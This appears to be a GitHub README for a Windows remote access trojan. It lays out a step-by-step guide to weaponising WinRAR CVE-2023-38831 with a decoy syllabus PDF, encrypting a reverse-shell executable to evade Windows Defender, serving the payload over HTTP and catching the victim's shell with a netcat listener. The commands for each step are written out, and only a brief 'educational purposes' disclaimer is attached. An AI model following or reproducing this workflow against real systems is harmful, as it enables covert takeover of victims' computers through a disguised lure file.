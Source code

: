 # Windows x64 Remote Access Trojan (RAT)

## Objective
Develop a Windows x64 RAT using CVE-2023-38831 (WinRAR < 6.23) and Shellcode exploitation to bypass Windows Defender.

## System Description
1. **Shellcode Initialization**
   - Generate shellcode using Windows/x64 - PIC Null-Free TCP Reverse Shell Shellcode.
2. **main.cpp Explanation**
   - Inject and execute shellcode in memory to establish a reverse TCP connection.
3. **Compile and Encrypt main.cpp**
   - Compile C++ file into an executable and encrypt it.
4. **Exploit WinRAR CVE-2023-38831**
   - Use the vulnerability to download, decrypt, and execute the encrypted RAT.
5. **Decrypt and Execute Script (decrypt_file.ps1)**
   - Decrypt and execute the downloaded executable.
6. **Execution**
   - Open the crafted PDF/image to trigger reverse shell connection.

# Exploit Guide

**Warning: This information is for educational purposes only. Unauthorized use of these techniques is illegal and unethical.**

## Step-by-Step Instructions

1. **Craft Shellcode**
   - Use `51721.py` to generate the initial shellcode.

2. **Modify and Compile the Shellcode**
   - Make necessary modifications to the shellcode.
   - Compile the modified code.

3. **Encrypt the Executable**
   - Use `decrypt_file.ps1` to encrypt the compiled executable:
     ```powershell
     .\decrypt_file.ps1 -inputFile .\main.exe -outputFile .\enc_main.exe
     ```

4. **Create a WinRAR Archive**
   - Use `cve-2023-38831-exp-gen.py` to create the archive:
     ```
     python cve-2023-38831-exp-gen.py NetworkSecuritySyllabus.pdf script.bat NetworkSecuritySyllabus.rar
     ```

5. **Set Up a Python Server for File Download**
   - Navigate to the directory containing `enc_main.exe` and `decrypt_file.ps1`.
   - Start a Python HTTP server:
     ```
     python3 -m http.server 8000
     ```

6. **Prepare to Listen for the Reverse TCP Shell**
   - Open Netcat to listen for incoming TCP connections:
     ```
     nc -lnvp 4444
     ```

7. **Trigger the Reverse TCP Shell**
   - When the victim opens the PDF file, the reverse TCP connection will be triggered, giving you access to their machine.

## Disclaimer

This information is provided for educational purposes only. The use of this exploit without explicit permission is illegal and unethical. The author assumes no responsibility for any misuse of this information.
